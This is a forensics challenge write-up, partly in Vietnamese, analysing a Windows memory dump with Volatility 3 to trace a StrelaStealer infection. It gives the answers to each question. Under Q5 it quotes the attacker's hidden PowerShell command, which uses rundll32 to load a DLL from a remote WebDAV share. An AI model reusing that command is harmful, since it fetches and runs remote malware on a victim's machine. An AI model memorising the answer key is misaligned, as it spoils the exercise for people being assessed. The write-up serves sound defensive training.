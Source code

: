 # Reveal 

> As a cybersecurity analyst for a leading financial institution, an alert from your SIEM solution has flagged unusual activity on an internal workstation. Given the sensitive financial data at risk, immediate action is required to prevent potential breaches.

> Your task is to delve into the provided memory dump from the compromised system. You need to identify basic Indicators of Compromise (IOCs) and determine the extent of the intrusion. Investigate the malicious commands or files executed in the environment, and report your findings in detail to aid in remediation and enhance future defenses.

> Tools:
   Volatility 3

> .mem: Định dạng tùy chỉnh, thường dùng trong phân tích bộ nhớ với các công cụ như Volatility.

> .dmp: Định dạng phổ biến hơn, thường được hệ điều hành tạo ra khi có sự cố, và dùng trong phân tích sự cố và điều tra kỹ thuật số.

> volatility là công cụ để phân tích bộ nhớ có thể trích xuất chi tiết thông tin từ file dump hoặc file mem


## Q1: Identifying the name of the malicious process helps in understanding the nature of the attack. What is the name of the malicious process?

+ đầu tiên ta sẽ phân tích nguồn của file thuộc os nào => file file.dmp

 ![361132733-920c58e6-bae8-4980-ba9e-a7883f7240a3](https://github.com/user-attachments/assets/2f191328-9611-49af-8107-1afa8e90b53f)

+ tiếp theo ta có thể list thông tin tiến trình của hệ thống bằng câu lệnh windows.pslist 

+ để phát hiện trích xuất mã độc ta sẽ dùng plugin windows.malfind

![361133445-0c06cb2c-37fa-4f1f-91d3-6a12d0327722](https://github.com/user-attachments/assets/d8bbe791-46dd-4165-a657-c2e48dcaca54)


=> process powershell có vẻ đang add 1 số value vào memory , powershell PAGE_EXECUTE_READWRITE quyền này có thể chứa dữ liệu hoặc mã đang được thực thi

=> Anwser: powershell.exe

## Q2: Knowing the parent process ID (PID) of the malicious process aids in tracing the process hierarchy and understanding the attack flow. What is the parent PID of the malicious process?

+ như câu hỏi trên ta list được ppid của powershell => windows.pslist

![361145716-55b10e01-db8f-4174-8fd9-a39fa1c122d0](https://github.com/user-attachments/assets/609f26d3-ea1e-43c0-99c3-cec78dcd810e)


=> Anwser: 4120

## Q3: Determining the file name used by the malware for executing the second-stage payload is crucial for identifying subsequent malicious activities. What is the file name that the malware uses to execute the second-stage payload?

+ xác định được malware execute ta sẽ sử dụng : vol -f file.dmp windows.cmdline --pid 3692

  ![361146819-c237dcb7-f3a2-4f17-90b5-a47cc53f2c12](https://github.com/user-attachments/assets/a678bb4d-9d30-4111-ab1d-18f7b4d1b539)

=> có 1 file dll đang ở dir \davwwwroot

=> Anwser: 3435.dll

## Q4: dentifying the shared directory on the remote server helps trace the resources targeted by the attacker. What is the name of the shared directory being accessed on the remote server?

+ như bài trên ta có thể xác định được remote directory có chứa file dll

  => Anwser: davwwwroot

## Q5: What is the MITRE sub-technique ID used by the malware to execute the second-stage payload?

+ Từ câu 3, ta có thể thấy rằng đối số dòng lệnh của quy trình độc hại, powershell.exe, là “powershell.exe -windowstyle Hidden net use \\45.9.74.32@8888\davwwwroot\ ; rundl32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry.” Do đó, hoạt động chính ở đây là sử dụng rundll32.exe để tải và thực thi một DLL từ một vị trí từ xa, ánh xạ trực tiếp tới kỹ thuật MITER ATT&CK T1218.011

=> Anwser : T1218.011

## Q6: Identifying the username under which the malicious process runs helps in assessing the compromised account and its potential impact. What is the username that the malicious process runs under?

+ Windows theo dõi các chương trình bạn chạy bằng tính năng trong sổ đăng ký có tên là khóa UserAssist. Các phím này ghi lại số lần mỗi chương trình được thực thi và thời điểm nó được chạy lần cuối

        vol -f file.dmp userassist

![361147867-ef073c97-d969-4105-aff4-dcc04756154c](https://github.com/user-attachments/assets/dd72b1ad-4ea9-4fe5-8dff-8bde6b52b5df)


=> Anwser: elon 

## Q7: Knowing the name of the malware family is essential for correlating the attack with known threats and developing appropriate defenses. What is the name of the malware family?

+ xác định địa chỉ ip remote là 45.9.74.32

 ![361148176-282195e3-445f-41ee-a49a-0debffe3069a](https://github.com/user-attachments/assets/62ba90c7-ceee-431a-8d2b-c16fd7865458)


=> Anwser: STRELASTEALER
